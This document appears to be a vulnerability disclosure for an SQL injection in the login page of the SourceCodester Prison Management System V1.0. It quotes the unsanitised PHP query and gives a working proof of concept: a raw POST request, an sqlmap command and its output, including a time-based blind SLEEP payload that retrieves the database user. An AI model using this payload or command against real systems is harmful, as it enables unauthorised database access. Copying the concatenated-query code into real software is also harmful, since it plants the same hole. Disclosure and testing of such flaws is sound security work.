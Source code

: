 Prison Management System - SQL Injection on (/Account/login.php) 

Vendor Homepage:

```
https://www.sourcecodester.com/sql/17287/prison-management-system.html
```

Version: 

```
V1.0
```

Tested on: 

```
PHP, Apache, MySQL
```

Affected Page:

```
/Account/login.php
```

In this scenario, user input (password) is directly  incorporated into an SQL query without any filtering or prepared  statements, making the application susceptible to SQL Injection attacks.

```
26: mysqli_query $result = mysqli_query($conn, $sql); 
25: $sql = "SELECT * FROM users WHERE email='" . $email . "' and password = '" . $password . "'  and status = '" . $status . "'"; 
20: $email = $_POST['txtemail']; 
21: $password = $_POST['txtpassword']; 
22: $status = 'Active'; 
requires:
12: if(isset($_POST['btnlogin']))
```

Proof of vulnerability:

Request:

```
POST /Account/login.php HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/jxl,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: http://localhost:8888
Sec-GPC: 1
Connection: close
Referer: http://localhost:8888/prison/Account/login.php
Cookie: PHPSESSID=n3ilei2mg7mov24l4ol9itjc14
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

txtemail=admin%40qq.com&txtpassword=admin123*&btnlogin=
```

```
python3 sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

```
sqlmap identified the following injection point(s) with a total of 206 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: txtemail=admin@qq.com&txtpassword=admin123' AND (SELECT 4485 FROM (SELECT(SLEEP(5)))Yyls) AND 'fzXr'='fzXr&btnlogin=
---
[10:25:02] [INFO] the back-end DBMS is MySQL
[10:25:02] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
[10:25:02] [INFO] fetching current user
[10:25:02] [INFO] retrieved:
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
[10:25:17] [INFO] adjusting time delay to 1 second due to good response times
root@localhost
current user: 'root@localhost'
```

